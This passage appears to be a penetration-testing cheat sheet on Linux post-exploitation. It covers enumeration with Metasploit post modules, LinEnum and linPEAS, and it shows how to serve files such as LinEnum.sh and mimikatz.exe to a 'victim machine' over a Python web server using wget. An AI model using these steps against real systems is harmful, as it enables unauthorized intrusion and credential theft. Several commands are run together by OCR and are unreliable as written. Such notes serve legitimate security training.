 * ​[LinEnum - rebootuser](https://github.com/rebootuser/LinEnum)​
* ​[linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

```bash
# Metasploit
use post/linux/gather/enum_configs
use post/linux/gather/enum_network
use post/linux/gather/enum_system
use post/linux/gather/checkvm

# LINENUM - Automatic Enumeration
cd /tmp
upload LinEnum.sh #or copy and paste github code into an .sh file
shell
/bin/bash -i
chmod +x LinEnum.sh
./LinEnum.sh
#can be useful transferring LinEnum.sh to target system (using python -m SimpleHTTPServer on attacker machine and downloading it on victim machine with wget http://target_IP:8000/LinEnum.sh) 

./LinEnum.sh -s -k <keyword> -r <report> -e /tmp/ -t
```

## Transferring Files <a href="#transferring-files" id="transferring-files"></a>

#### ​[Python Web Server](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/Tools_and_setup/set_up_a_local_testing_server)​ <a href="#python-web-server" id="python-web-server"></a>

**`Python`** modules can be useful for setting up a web server that hosts the files required for transfer. These modules

* Check `Python` version

python -Vpython3 -Vpy -v # on Windows

* ​[**`SimpleHTTPServer`**](https://docs.python.org/2.7/library/simplehttpserver.html#module-SimpleHTTPServer) - `python2` module

\# If Python version returned is 2.Xpython -m SimpleHTTPServer \<PORT\_NUMBER>

* ​[**`http.server`**](https://docs.python.org/3/library/http.server.html) - `python3` module

\# If Python version is 3.Xpython3 -m http.server \<PORT># On Windows, trypython -m http.server \<PORT>py -3 -m http.server \<PORT>**`e.g.`**

* Copy a file into the current directory and setup the web server to download the file into the target system

cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .​# Python 2.7python -m SimpleHTTPServer 80​# Python 3.7python3 -m http.server 80

Files can be downloaded from a browser or using a `GET` request
